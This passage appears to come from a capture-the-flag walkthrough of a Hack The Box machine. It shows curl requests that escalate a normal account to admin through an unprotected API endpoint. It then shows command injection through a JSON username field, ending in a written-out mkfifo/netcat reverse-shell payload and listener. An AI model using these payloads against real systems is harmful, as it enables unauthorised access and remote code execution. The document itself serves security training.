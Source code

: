 So we have a possible point of attack, but how do we become admin? Let's check what happens when we make a PUT request to the `/api/v1/admin/settings/update` endpoint. 

```bash
curl -X PUT 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -H 'Content-Type: application/json'
```

> In order to use `cURL` as a newly created user, we can grab the session cookie that our browser is supplying the website to prove we're still logged in. Then add that cookie to a `curl` request by using `-H 'Cookie: PHPSESSID={yourcookie}'`

We receive the following response:

```
{"status":"danger","message":"Missing parameter: email"}
```

Hmm, It's asking us for the user email. It actually looks like this API endpoint for making a user an admin, can be operated by a non-admin. Let's supply the email

```bash
curl 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -v -X PUT -H 'Content-Type: application/json' -d '{"email":"test1234@test.com"}'
```

It then tells us it needs a `is_admin` value, so let's supply that too. Trying some different variations of `True`, `true` and finally `1` gets us a positive response:

```bash
curl 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -v -X PUT -H 'Content-Type: application/json' -d '{"email":"test1234@test.com", "is_admin":1}'
```

```bash
{"id":16,"username":"test1234","is_admin":1}
```

Nice! We can now even use the `/api/v1/admin/auth` to verify this. Now, let's see if our assumptions about the command injection were correct.

## Initial foothold
Let's make a request to `/admin/vpn/generate` to see what happens. The response we get is `{"status":"danger","message":"Missing parameter: username"}`. Okay, let's add a username with `-d '{"username":"test1234"}'`. The server ends up sending us an OpenVPN file as expected. Now that we know how to generate such a request, let's see if we can tweak it in order to inject some command in there. To reiterate; we suspect that the parsing of the `username` field is not done safely and its contents might be put in some sort of `system()` command. We make the following request:

```bash
curl 2million.htb/api/v1/admin/vpn/generate -H 'Cookie: PHPSESSID=hvhiclnfmtpgtacqfi5djt31bc' -v -X POST -H 'Content-Type: application/json' -d '{"username":";id;"}'
```

And indeed the response we get is `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, meaning the `id` command was successfully run on the server. Let's use a reverse shell command to get a shell as this `www-data` user going: `{"username":";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.100 1234 >/tmp/f;"}`. Of course, make sure we first have something listening on our machine to catch the shell with `nc -lvnp 1234`
